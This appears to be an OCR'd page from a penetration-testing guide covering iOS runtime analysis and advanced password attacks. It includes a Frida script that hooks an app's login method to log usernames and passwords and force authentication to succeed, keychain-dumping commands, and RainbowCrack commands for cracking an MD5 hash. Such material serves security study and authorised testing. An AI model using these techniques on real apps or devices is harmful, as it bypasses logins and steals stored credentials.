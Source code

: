 **Runtime Analysis with Frida**
```javascript
// ios_hook.js
if (ObjC.available) {
    var LoginController = ObjC.classes.LoginViewController;
    
    // Hook Objective-C method
    Interceptor.attach(LoginController['- authenticateUser:password:'].implementation, {
        onEnter: function(args) {
            console.log('[+] authenticateUser called');
            console.log('[+] User: ' + ObjC.Object(args[2]).toString());
            console.log('[+] Pass: ' + ObjC.Object(args[3]).toString());
        },
        onLeave: function(retval) {
            console.log('[+] Return value: ' + retval);
            // Force return true
            retval.replace(1);
        }
    });
} else {
    console.log('Objective-C Runtime not available');
}
```

**Keychain Dumping**
```bash
# Using Keychain-Dumper
keychain_dumper > keychain.txt

# Manual keychain query
security find-generic-password -ga "AppName"
```

---

## Advanced Password Attacks

### Rainbow Tables

#### Understanding Rainbow Tables
- Precomputed hash tables
- Trade time for space
- Chain reduction functions
- Covers large keyspace efficiently

**Using RainbowCrack**
```bash
# Generate rainbow table
rtgen md5 loweralpha 1 7 0 3800 33554432 0

# Sort table
rtsort *.rt

# Crack hashes
rcrack . -h 5f4dcc3b5aa765d61d8327deb882cf99
```

